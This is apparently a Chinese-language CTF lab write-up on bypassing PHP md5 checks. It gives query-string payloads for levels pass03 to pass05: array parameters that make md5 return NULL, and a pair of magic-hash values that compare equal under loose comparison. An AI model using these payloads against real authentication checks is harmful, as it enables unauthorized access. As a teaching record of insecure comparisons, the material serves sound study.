 

### 数组绕过

php的md5函数，无法处理数组，返回null

>#### md5===绕过(数组比较):
>
>127.0.0.1/md5_2.php
>
>```php
>http://127.0.0.1/md5_2.php?a[]=a&b[]=b
>上述的例子中传入?a[]=a&b[]=b即可满足既不相等，md5后又相等的条件,虽然报错，但仍然输出了正确的值。
>```
>
>>在php中的hash函数md5、sha1等处理中若传入一个数组的值，则会报错返回NULL，而返回的值在类型和内容上都是相同的，所以可以用来绕过某些两边参数可控的场景，上面只能控制一边的值传入，所以数组类型不适用。
>
>



## pass03

查穷举的表

```
ctype_alpha检测A-Za-z
is_numeric检查是否只有数字
```

```
/pass-03.php?user=3908336290&pass=QNKCDZO
```



## pass04

利用null

```
/pass-04.php?user=&pass[]=1
没有赋值就是空
```

没有赋值就是空

## pass05

===

利用null

```
/pass-05.php?user=&pass[]=1
```
